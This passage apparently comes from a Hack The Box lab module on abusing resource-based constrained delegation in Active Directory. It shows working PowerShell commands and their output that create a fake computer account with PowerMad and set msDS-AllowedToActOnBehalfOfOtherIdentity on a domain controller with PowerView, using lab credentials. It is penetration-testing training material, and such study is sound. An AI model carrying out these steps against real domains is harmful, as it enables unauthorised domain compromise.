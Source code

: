 #### RBCD Enumeration
```powershell-session
PS C:\Tools> .\SearchRBCD.ps1

carole.holmes has the required access rights on DC01
```

We already have the user `carole.holmes` who has privileges on `DC01`. The simplest way to obtain an object with SPN is to use a computer. We can use a computer on which we already have administrator privileges, or if we do not have such rights, we could create a fake computer. Let's use the 2nd approach.

First, we need to create a computer account, which is possible because `ms-DS-MachineAccountQuota` is set to 10 by default for authenticated users. We can make our fake computer using the [PowerMad](https://github.com/Kevin-Robertson/Powermad) script.

#### Using PowerMad to Create a Fake Computer
```powershell-session
PS C:\Tools> Import-Module .\Powermad.ps1
PS C:\Tools> New-MachineAccount -MachineAccount HACKTHEBOX -Password $(ConvertTo-SecureString "Hackthebox123+!" -AsPlainText -Force)

[+] Machine account HACKTHEBOX added
```

Then, we add this computer account to the trust list of the targeted computer, which is possible because the attacker has `GenericAll ACL` on this computer:

1. Obtain the computer SID.
2. Use the [Security Descriptor Definition Language (SDDL)](https://learn.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-definition-language) to create a security descriptor.
3. Set `msDS-AllowedToActOnBehalfOfOtherIdentity` in raw binary format.
4. Modify the target computer.

#### Modify the target computer
```powershell-session
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> $ComputerSid = Get-DomainComputer HACKTHEBOX -Properties objectsid | Select -Expand objectsid
PS C:\Tools> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
PS C:\Tools> $SDBytes = New-Object byte[] ($SD.BinaryLength)
PS C:\Tools> $SD.GetBinaryForm($SDBytes, 0)
PS C:\Tools> $credentials = New-Object System.Management.Automation.PSCredential "INLANEFREIGHT\carole.holmes", (ConvertTo-SecureString "Y3t4n0th3rP4ssw0rd" -AsPlainText -Force)
PS C:\Tools> Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Credential $credentials -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Extracted domain 'INLANEFREIGHT.LOCAL' from 'CN=DC01,OU=Domain
Controllers,DC=INLANEFREIGHT,DC=LOCAL'
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(distinguishedname=CN=DC01,OU=Domain
Controllers,DC=INLANEFREIGHT,DC=LOCAL)))
VERBOSE: [Set-DomainObject] Setting 'msds-allowedtoactonbehalfofotheridentity' to '1 0 4 128 20 0 0 0 0 0 0 0 0 0 0 0
36 0 0 0 1 2 0 0 0 0 0 5 32 0 0 0 32 2 0 0 2 0 44 0 1 0 0 0 0 0 36 0 255 1 15 0 1 5 0 0 0 0 0 5 21 0 0 0 7 43 120 111
218 117 136 70 100 139 92 35 55 8 0 0' for object 'DC01$'
```